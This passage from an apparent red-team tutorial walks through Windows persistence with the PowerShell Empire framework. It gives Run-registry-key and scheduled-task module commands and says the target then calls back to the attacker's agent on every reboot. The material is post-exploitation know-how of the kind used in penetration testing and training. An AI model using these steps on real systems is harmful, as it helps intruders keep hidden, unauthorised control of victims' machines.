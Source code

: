     The registry path we will be adding our persistence stager to will be the Run registry key, Run and RunOnce registry keys cause programs to run each time a user logs on. The data value for a key is a command line no longer than 260 characters. Register programs to run by adding entries of the form `description-string=command line`. You can write multiple entries under a key. If more than one program is registered under any particular key, the order in which those programs run is indeterminate.

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

1. We can determine whether our registry key was added by running a Windows Registry query command:

        reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run

1. If the module ran successfully, you should see the Registry key we specified in the module options added as shown in the following screenshot.

    ![reg query output](reg-query-output.png "reg query output")

    We should now receive an agent callback from the target system whenever it is rebooted or booted.

### Persistence through Scheduled Tasks

We can also setup persistence on the target system by utilizing the Empire module “powershell/persistence/userland/schtasks”. The persistence/userland/* modules allow for reboot-persistence from userland (i.e. without needing administrative privileges).

1. The first step will involve interacting with the unprivileged agent and selecting the userland Registry module, this can be done by running the following commands:

        interact <AGENT-ID>/<NAME>
        usemodule powershell/persistence/userland/schtasks

1. After selecting the module, we will need to configure the module options such as the Listener, RegPath and DailyTime, this can be done by running the following commands in the Empire client:

        set Listener http
        set Agent <AGENT-ID>/<NAME>
        set RegPath HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
        set DailyTime 09:00

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

    If successful you should receive output similar to the one shown in the screenshot below.

    ![Empire client scheduled task execute output](empire-client-scheduled-task-execute-output.png "Empire client scheduled task execute output")

